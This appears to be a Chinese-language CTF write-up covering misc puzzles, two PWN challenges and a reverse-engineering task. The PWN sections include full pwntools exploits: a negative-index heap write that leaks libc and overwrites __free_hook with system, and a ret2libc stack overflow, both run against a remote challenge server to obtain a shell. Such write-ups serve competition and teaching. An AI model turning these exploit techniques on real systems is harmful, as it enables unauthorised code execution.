

导出压缩包，密码在 DNS 流量中：PanShi2025!

解压后有个图，爆破高度得到 flag：


## easy_misc

题目给了一个真加密的 zip 压缩包和一张 png 图片，图片内容为缺了定位角的二维码，若补上定位角则可得到伪 flag：FAKE_FLAG{nizenmezhemeshuliana!}


继续着手图片，查看图片二进制，发现其文件尾有 PK，binwalk 分离文件得到压缩包及其内的 what.txt，内容为 Ook 编码，使用在线网站解密得到压缩包密码 y0u_c@t_m3!!!，最后打开压缩包得到 flag{3088eb0b-6e6b-11ed-9a10-145afc243ea2}

## ModelUnguilty

题目要求仅在于保证验证集准确率以及验证集中某个标签的错误分类，那么直接将验证集当做训练集输入（），并随机将一些标签为 span 的数据标记为 not_span 即可。在本题的 validation_data.csv 中，将 1-155 的标签全部标记为 not_span 即可获得 flag。



# PWN

## User

菜单堆，没有 show。

从代码里面可以看出，delete 和 edit 只限制了最大值但是没有限制最小值，也就意味着它完全可以倒着溢出。



而 heap 的上面有 stdout，可以通过它泄露 libc 地址。在 heap 的上面找到了一个地址，指向本身，修改它意味着一次任意地址写，于是直接打 free_hook。

```python
from pwn import *

#_ patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./ts_model_
#_ patchelf --replace-needed libc.so.6 ./libc.so.6 ./ts_model_

context.log_level = "debug"
context(arch="amd64", os="linux")
context.terminal = ['tmux','splitw','-h']

def p(s,m):
    if m == 0:
        io = process(s)
    else:
        if ":" in s:
            x = s.split(":")
            addr = x[0]
            port = int(x[1])
            io = remote(addr,port)
        elif " " in s:
            x = s.split(" ")
            addr = x[0]
            port = int(x[1])
            io = remote(addr,port)
        else:
            error(f"{s} may be some error")
    return io

def gg():
    gdb.attach(io)
    raw_input()

def gg2(x):

    gdb.attach(io,x)
    raw_input()

def one_gadget(lib,libc_base):
    log.progress('Leak One_Gadgets...')
    one_ggs = str(subprocess.check_output(['one_gadget','--raw',lib]),encoding = "utf-8").split(' ')
    ogg = list(map(int,one_ggs))
    for i in range(len(ogg)):
        ogg[i] += libc_base
    print(list(map(lambda x: hex(x), ogg)))
    return ogg

s   = lambda x  : io.send(x)
sa  = lambda x,y: io.sendafter(x, y)
sla = lambda x,y: io.sendlineafter(x, y)
sl  = lambda x  : io.sendline(x)
rv  = lambda x  : io.recv(x)
ru  = lambda x  : io.recvuntil(x)
rvl = lambda    : io.recvline()
lg  = lambda x,y: log.info(f"\x1b[01;38;5;214m {x} => {hex(y)} \x1b[0m")
ia  = lambda    : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
l32  = lambda     : u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
l64  = lambda     : u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))

def add(n):
    sla(b"5. Exit",b"1")
    sa(b"Enter your username:",n)

def delete(i):
    sla(b"5. Exit",b"2")
    sla(b"index:",str(i).encode())

def edit(i,n):
    sla(b"5. Exit",b"4")
    sla(b"index:",str(i).encode())
    sa(b"Enter a new username:",n)

#_ io = p("./user",0)_

io = p("pss.idss-cn.com 20516",1)
add(b"/bin/sh\x00")
add(b"/bin/sh\x00")
add(b"/bin/sh\x00")
#_ delete(0)_
edit(-8,p64(0xfbad1800)+p64(0x0)*3+b'\x00')
t = l64()
libc_base = t - (0x7f9c420db980 - 0x7f9c41ef0000) - 0x1000
lg("some addr",t)
lg("libc base",libc_base)
libc = ELF("./libc.so.6")
free_hook = libc_base + (0x7f2dc093db28 - 0x7f2dc074f000)
edit(-11,p64(libc_base+libc.sym["__free_hook"]))
edit(-11,p64(libc_base+libc.sym["system"]))
#_ gg()_
delete(1)
ia()
```

## Account

程序很简单，有个栈溢出，可以直接 ret2libc：



这边要注意，一路覆盖下去会把计数器覆盖了，到计数器的时候手动调整一下就能直接跳到返回地址上。

后面遇到个问题，libc 的地址因为 %d 有符号没办法直接打进去，选择通过负数传。

```python
from pwn import *

#_ patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./ts_model_
#_ patchelf --replace-needed libc.so.6 ./libc.so.6 ./ts_model_

context.log_level = "debug"
context(arch="amd64", os="linux")
context.terminal = ['tmux','splitw','-h']

def p(s,m):
    if m == 0:
        io = process(s)
    else:
        if ":" in s:
            x = s.split(":")
            addr = x[0]
            port = int(x[1])
            io = remote(addr,port)
        elif " " in s:
            x = s.split(" ")
            addr = x[0]
            port = int(x[1])
            io = remote(addr,port)
        else:
            error(f"{s} may be some error")
    return io

def gg():
    gdb.attach(io)
    raw_input()

def gg2(x):

    gdb.attach(io,x)
    raw_input()

def one_gadget(lib,libc_base):
    log.progress('Leak One_Gadgets...')
    one_ggs = str(subprocess.check_output(['one_gadget','--raw',lib]),encoding = "utf-8").split(' ')
    ogg = list(map(int,one_ggs))
    for i in range(len(ogg)):
        ogg[i] += libc_base
    print(list(map(lambda x: hex(x), ogg)))
    return ogg

s   = lambda x  : io.send(x)
sa  = lambda x,y: io.sendafter(x, y)
sla = lambda x,y: io.sendlineafter(x, y)
sl  = lambda x  : io.sendline(x)
rv  = lambda x  : io.recv(x)
ru  = lambda x  : io.recvuntil(x)
rvl = lambda    : io.recvline()
lg  = lambda x,y: log.info(f"\x1b[01;38;5;214m {x} => {hex(y)} \x1b[0m")
ia  = lambda    : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
l32  = lambda     : u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
l64  = lambda     : u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
#_ io = p(b"./account",0)_
io = p("pss.idss-cn.com 23382",1)
payload = (str(0x804C014).encode()+b" ")*10 + b"13 " + str(0x80490B0).encode() +b" "+str(0x8049264).encode()+b" "+ (str(0x804C014).encode() +b" ")
#_ gg2("b *0x80492D2")_
sl(payload)
sl(b"0")
t = l32()
libc = ELF("./libc-2.31.so")
libc_base = t - libc.sym["puts"]
lg("libc_base",libc_base)
payload = b"1 "*10 + b"13 "  + str(libc_base + libc.sym["system"] - (1<<32)).encode() +b" "+ b" " +str(0x8049264).encode()+b" " +  str(libc_base + next(libc.search(b"/bin/sh")) - (1<<32)).encode()
sl(b"0")
ia()
```

# RE

## mykey

xspy 得到按钮的响应函数



先把反调试 patch 掉，动态跟踪定位到 sub_140001A60 函数



继续跟踪间接调用到 sub_1400040A0



前三个读取资源，字符串列表如下：



sub_140004970 是 memcmp，sub_140004970 是 base64，主要逻辑在 sub_140003A40



首先把 201 字符串拓展位 16 字节，然后将输入的数据分为 16 字节一组不够的进行 pad，每组先与 IV 进行下 xor，然后进入到 sub_140003840 进行自定义的 RC6 加密。最后修改了 IV。初始 IV 位 202 字符串。动态运行获取拓展后的 RC6 密钥流。

手动按照变种 RC6 写一个解密脚本，由于 IV 也发生变化，直接通过动态调试得到每一轮的 IV，最后解密即可。

```python
#rotate right input x, by n bits
def ROR(x, n, bits = 32):
    mask = (2<<n) - 1
    mask_bits = x & mask
    return ((x >> n) | (mask_bits << (bits - n)) ) & 0xffffffff

#rotate left input x, by n bits
def ROL(x, n, bits = 32):
    n = n & 0x1f
    return ROR(x, bits - n,bits)

def rol(x, n):
    n  &= 0x1f
    return (x << n | x >> (32 - n)) & 0xffffffff

def ror(x,n):
    n = n & 0x1f
    return (x >> n | x << (32 - n)) & 0xffffffff

def encrypt(input, key):
    A,B,C,D = input[0], input[1], input[2], input[3]
    B = (B + key[0]) & 0xffffffff
    D = (D + key[1]) & 0xffffffff
    for i in range(1,21):
        tmp1 = rol(((((2*B) & 0xffffffff) + 1)*B) & 0xffffffff, 5)
        tmp2 = rol(((((2*D) & 0xffffffff) + 1)*D) & 0xffffffff, 5)
        A = (key[2*i] + rol(tmp1 ^ A, tmp2)) & 0xffffffff
        C = (key[2*i+1] + rol(tmp2 ^ C, tmp1)) & 0xffffffff
        A,B = B,A
        B,C = C,B
        C,D = D,C
    
    A = (A + key[42]) & 0xffffffff
    C = (C + key[43]) & 0xffffffff
    return [A,B,C,D]

def decrypt(input, key):
    A,B,C,D = input[0], input[1], input[2], input[3]
    A = (A - key[42]) & 0xffffffff
    C = (C - key[43]) & 0xffffffff
    for i in range(20, 0, -1):
        C,D = D,C
        B,C = C,B
        A,B = B,A
        
        # 重新计算 tmp1 和 tmp2（基于当前 B 和 D）
        tmp1 = rol(((((2 * B) & 0xFFFFFFFF) + 1) * B) & 0xFFFFFFFF, 5)
        tmp2 = rol(((((2 * D) & 0xFFFFFFFF) + 1) * D) & 0xFFFFFFFF, 5)
        
        # 逆向 A 和 C 的更新操作
        # 原加密操作：A = (key[2*i] + rol(tmp1 ^ A, tmp2)) & 0xFFFFFFFF
        # 逆向操作：A = ((A - key[2*i]) >> tmp2) ^ tmp1
        A = ((A - key[2 * i]) & 0xFFFFFFFF)  # 先减去子密钥
        A = ror(A, tmp2)                     # 逆向循环左移（用右移代替）
        A = (A ^ tmp1) & 0xFFFFFFFF          # 逆向异或
        
        # 原加密操作：C = (key[2*i+1] + rol(tmp2 ^ C, tmp1)) & 0xFFFFFFFF
        # 逆向操作：C = ((C - key[2*i+1]) >> tmp1) ^ tmp2
        C = ((C - key[2 * i + 1]) & 0xFFFFFFFF)
        C = ror(C, tmp1)
        C = (C ^ tmp2) & 0xFFFFFFFF
    
    # Step 3: 逆向初始加法
    B = (B - key[0]) & 0xFFFFFFFF
    D = (D - key[1]) & 0xFFFFFFFF
    
    return [A, B, C, D]

key = [
0x7368AAE0, 0x7254CD7D, 0x0FAD4AAE2, 0x9C030C41, 0x5D72CA51, 0x0ADCA53F4,
0x1326EF25, 0x48C1148F, 0x0D1C2640, 0x1632916D, 0x0B54FFCF8, 0x972C5FF9, 0x6B3464EC,
0x89B4FDB3, 0x512DA5BE, 0x85183704, 0x0B80D88B3, 0x0CD8E0552, 0x4FB3D88C,
0x0E2A68174, 0x406835DF, 0x53491AA5, 0x53447C05, 0x0DB4FCBFA, 0x3104DCD8,
0x0B9D6F922, 0x0E5531F6E, 0x0AB30B64E, 0x0C87B4BA0, 0x9821B17E, 0x0B0FBAADC,
0x0D83972C2, 0x7C81FE11, 0x99BC6EE0, 0x0BAA16A68, 0x158EEDA9, 0x2A58205B,
0x0C985B1CC, 0x0D7210BE3, 0x5D5BBF7B, 0x64EB76C2, 0x44E3C8D8, 0x0D9DFC75F,
0x541C238D
]

input = [
    0x765166, 0x0C5A5477, 0x646F7F53, 0x69517247
]

enc = encrypt(input, key)
print(list(map(hex,enc)))
print(list(map(hex, decrypt(enc, key))))

flag = "RKCTaz+fty1J2qsz4DI6t9bmMiLBxqFrpI70fU4IMemczIlM+z1IoVQobIt1MbXF"
from base64 import b64decode
from Crypto.Util.number import *
from Crypto.Util.strxor import strxor
data = b64decode(flag)
print(data, len(data))
data = [bytes_to_long(data[i:i+4][::-1]) for i in range(0, len(data), 4)]
print(data, len(data))
xorkey = b"WcE4Bbm4kHYQsAcX"
xorkey2 = bytes.fromhex("44A0936B3F9FB72D49DAAB33E0323AB7")
xorkey = [
    b"WcE4Bbm4kHYQsAcX",
    bytes.fromhex("44A0936B3F9FB72D49DAAB33E0323AB7"),
    bytes.fromhex("D6E63222C1C6A16BA48EF47D4E0831E9")
]
result = []
for i in range(0, len(data), 4):
    dec = decrypt(data[i:i+4], key)
    tmp = b"".join([ bytes.fromhex(hex(x)[2:].rjust(8, "0"))[::-1] for x  in dec])
    result.append(strxor(xorkey[i//4],tmp))

print(b"".join(result))
```
